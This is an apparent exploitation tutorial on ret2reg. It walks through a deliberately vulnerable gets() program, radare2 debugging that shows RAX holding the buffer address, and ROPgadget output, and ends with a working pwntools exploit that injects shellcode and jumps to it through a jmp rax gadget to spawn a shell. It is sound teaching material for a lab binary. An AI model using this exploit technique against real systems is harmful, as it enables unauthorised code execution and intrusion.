 # Using ret2reg

## Source

Any function that returns a pointer to the string once it acts on it is a prime target. There are many that do this, including stuff like `gets()`, `strcpy()` and `fgets()`. We''l keep it simple and use `gets()` as an example.

```c
#include <stdio.h>

void vuln() {
    char buffer[100];
    gets(buffer);
}

int main() {
    vuln();
    return 0;
}
```

## Analysis

First, let's make sure that some register _does_ point to the buffer:

```text
$ r2 -d -A vuln

[0x7f8ac76fa090]> pdf @ sym.vuln 
            ; CALL XREF from main @ 0x401147
┌ 28: sym.vuln ();
│           ; var int64_t var_70h @ rbp-0x70
│           0x00401122      55             push rbp
│           0x00401123      4889e5         mov rbp, rsp
│           0x00401126      4883ec70       sub rsp, 0x70
│           0x0040112a      488d4590       lea rax, [var_70h]
│           0x0040112e      4889c7         mov rdi, rax
│           0x00401131      b800000000     mov eax, 0
│           0x00401136      e8f5feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040113b      90             nop
│           0x0040113c      c9             leave
└           0x0040113d      c3             ret
```

Now we'll set a breakpoint on the `ret` in `vuln()`, continue and enter text`.`

```text
[0x7f8ac76fa090]> db 0x0040113d
[0x7f8ac76fa090]> dc
hello
hit breakpoint at: 40113d
```

We've hit the breakpoint, let's check if RAX points to our register. We'll assume RAX first because that's the traditional register to use for the return value.

```text
[0x0040113d]> dr rax
0x7ffd419895c0
[0x0040113d]> ps @ 0x7ffd419895c0
hello
```

And indeed it does!

## Exploitation

We now just need a `jmp rax` gadget or equivalent. I'll use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) for this and look for either `jmp rax` or `call rax`:

```text
$ ROPgadget --binary vuln | grep -iE "(jmp|call) rax"

0x0000000000401009 : add byte ptr [rax], al ; test rax, rax ; je 0x401019 ; call rax
0x0000000000401010 : call rax
0x000000000040100e : je 0x401014 ; call rax
0x0000000000401095 : je 0x4010a7 ; mov edi, 0x404030 ; jmp rax
0x00000000004010d7 : je 0x4010e7 ; mov edi, 0x404030 ; jmp rax
0x000000000040109c : jmp rax
0x0000000000401097 : mov edi, 0x404030 ; jmp rax
0x0000000000401096 : or dword ptr [rdi + 0x404030], edi ; jmp rax
0x000000000040100c : test eax, eax ; je 0x401016 ; call rax
0x0000000000401093 : test eax, eax ; je 0x4010a9 ; mov edi, 0x404030 ; jmp rax
0x00000000004010d5 : test eax, eax ; je 0x4010e9 ; mov edi, 0x404030 ; jmp rax
0x000000000040100b : test rax, rax ; je 0x401017 ; call rax
```

There's a `jmp rax` at `0x40109c`, so I'll use that. The padding up until RIP is `120`; I assume you can calculate this yourselves by now, so I won't bother showing it.

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

JMP_RAX = 0x40109c

payload = asm(shellcraft.sh())        # front of buffer <- RAX points here
payload = payload.ljust(120, b'A')    # pad until RIP
payload += p64(JMP_RAX)               # jump to the buffer - return value of gets()

p.sendline(payload)
p.interactive()
```

![](../../../../.gitbook/assets/image%20%2846%29.png)

Awesome!

